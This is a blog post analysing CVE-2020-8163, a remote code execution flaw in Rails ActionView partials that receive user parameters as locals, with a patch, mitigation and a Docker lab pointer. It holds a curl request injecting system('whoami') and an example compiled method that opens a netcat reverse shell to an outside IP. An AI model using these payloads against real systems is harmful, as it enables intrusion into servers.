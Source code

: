 ```yaml
---
layout: post
title:  "CVE-2020-8163"
summary: "Potential Remote Code Execution in Action View"
date: 2020-08-22 00:13:37
image: /assets/profile.png
author: tim_koopmans
categories: ruby
tags:
 - security
---
```

# Potential Remote Code Execution in Action View

If you **pass user parameters as local variables** into partials on affected versions of Rails, it is possible for attackers to perform remote code execution. From there, _really_ bad things happen.
{: .critical }

<script id="asciicast-VVnc3ItIsDe7PgbRxtASUByTH" src="https://asciinema.org/a/VVnc3ItIsDe7PgbRxtASUByTH.js" async></script>
<table>
  <thead>
    <tr>
      <th>Related Code</th>
      <th>Affected Versions</th>
      <th>Patched Versions</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <i class="devicon-ruby-plain"></i>
        <a href="https://api.rubyonrails.org/classes/ActionView.html">ActionView</a>
      </td>
      <td>
        All
      </td>
      <td>
        < 5.0.1
      </td>
    </tr>
  </tbody>
</table>

## Vulnerability[^fn-nist]

The `locals` argument to rendering a partial, does not sanitize user input. A vulnerable call to a partial template will look something like this:

```erb
<%= render partial: 'flag', locals: params %>
```

## Weakness

This vulnerability lets an attacker [inject code](http://cwe.mitre.org/data/definitions/94.html) which can lead to remote code execution.

## Attack

The attacking request will look something like this[^fn-demo]:

{% highlight bash %}
{% raw %}
curl http://target/users/index?system(%27whoami%27)%0A%23"
{% endraw %}
{% endhighlight %}

Since the query parameter contains arbitrary code and the targeted controller renders a partial view with local variables, this same code can potentially be executed on the target platform as a system call. Other variants to this attack might include the use of \``backticks`\` or `%x` / `Kernel#` methods.

## Analysis

The `ActionView::Template` class has a protected method called `compile` which sets the encoding of the compiled template for the view. Within this method, the dynamic views created by partials are eval'd into the encoded view[^fn-analysis]. It does this by [building a string](https://github.com/rails/rails/blob/v5.0.0/actionview/lib/action_view/template.rb#L287-L293) which is a dynamic method that uses `module_eval` to [evaluates the string in the context of mod](https://apidock.com/ruby/Module/module_eval). This is how the attacker is able to run abitrary code.

The dynamic string that is built will look something like this at run time:

```ruby
def _app_views_users__unsafe_html_erb___2814227942932613306_70032701656460(local_assigns, output_buffer)
  _old_virtual_path, @virtual_path = @virtual_path, "users/_unsafe"
  _old_output_buffer = @output_buffer
  action = action = local_assigns[:action]
  controller = controller = local_assigns[:controller]
  system('nc 192.168.1.104 4443 -e /bin/bash')
  #
  ...
ensure
  @virtual_path, @output_buffer = _old_virtual_path, _old_output_buffer
end
```

You can see in this example, the system method where the attacker then uses netcat to perform a reverse shell from within your server environment. This would of course depend on you having netcat installed, but given the attacker could chain these system calls, they could perform the necessary steps through remote code execution.

So how did this system call get into the dynamically eval'd method above in the first place?

The first thing the attacker would need, is for you to be rendering partials with the locals argument:

```erb
<%= render partial: 'flag', locals: params %>
```

When the `compile` method builds the aforementioned string, it makes another call to the `locals_code` [method in the same class](https://github.com/rails/rails/blob/v5.0.0/actionview/lib/action_view/template.rb#L327-L330) which looks like this:


```ruby
def locals_code #:nodoc:
  # Double assign to suppress the dreaded 'assigned but unused variable' warning
  @locals.each_with_object('') { |key, code| code << "#{key} = #{key} = local_assigns[:#{key}];" }
end
```

You can see here, that the `@locals` array iterates over each item and concatenates it to the string object. If the attacker passed in a parameter such as `system(%27whoami%27)%0A%23` then the resulting string will look something like:

```ruby
system(\'nwhoami\')
# = system(\'nwhoami\')
# = local_assigns[:system(\'nwhoami\')
```

By properly encoding the parameter, and appending a new line `%0A` followed by a hash `%23` the attacker is able to create a syntactically correct, dynamic method which is when evaluated, executes their system call.

A more simple demonstration with Ruby looks like this:

```ruby
source = 'def dynamic_method
  system(\'whoami\')
  #
end'

class Thing
end

Thing.module_eval(source)

irb(main):052:0> Thing.new.dynamic_method
root
```

## Fix

The best fix for this, is to upgrade Rails to a patched version.

The patch itself, sanitizes items in the `@locals` array of the `locals_code` method with something like this:

```ruby
+        locals = @locals.to_set - Module::DELEGATION_RESERVED_METHOD_NAMES
+        locals = locals.grep(/\A(?![A-Z0-9])(?:[[:alnum:]_]|[^\0-\177])+\z/)
```

The vulnerability can also be mitigated by making sure you do not render partials with user provided paramaters with something like this instead:

```erb
<%= render partial: 'flag', locals: { user: @user } %>
```

# Research

You can re-create this in a [CVE laboratory environment](https://github.com/correkthorse/rails-cve-testing) using Docker.

    CVE=CVE-2020-8163 RAILS_VERSION=4.2.11.1 make lab

# References

[^fn-nist]: [First published at NVD on 7 February 2020](https://nvd.nist.gov/vuln/detail/CVE-2020-8163)
[^fn-demo]: [CVE-2020-8163 - Remote code execution of user-provided local names in Rails](https://github.com/sh286/CVE-2020-8163)
[^fn-analysis]: [CVE-2020-8163: Partial Remote Code Execution](https://medium.com/@qazbnm456/cve-2020-8163-partial-remote-code-execution-c6f46bcdef2)
